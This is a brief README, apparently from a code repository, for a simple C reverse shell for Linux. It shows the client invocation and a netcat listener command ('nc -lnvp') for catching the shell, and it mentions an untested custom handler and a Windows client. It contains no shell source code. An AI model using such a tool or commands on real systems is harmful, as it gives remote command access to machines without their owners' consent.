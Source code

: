 # SimpleReverseShellC

This is a simple Reverse Shell written for linux platform execution.

## Client Usage:

./linuxClient [IP] [PORT]

Where [IP] and [PORT] will default to the default defines if no paramters are passed.


## Handler Usage Options:

### NetCat Handling:
nc -lnvp [PORT]

### Custom Handler:
./hander [PORT]
Rewrite in Python coming soon


### WINDOWS CLIENT MUST BE HANDLED WITH NETCAT... custom handler to be written
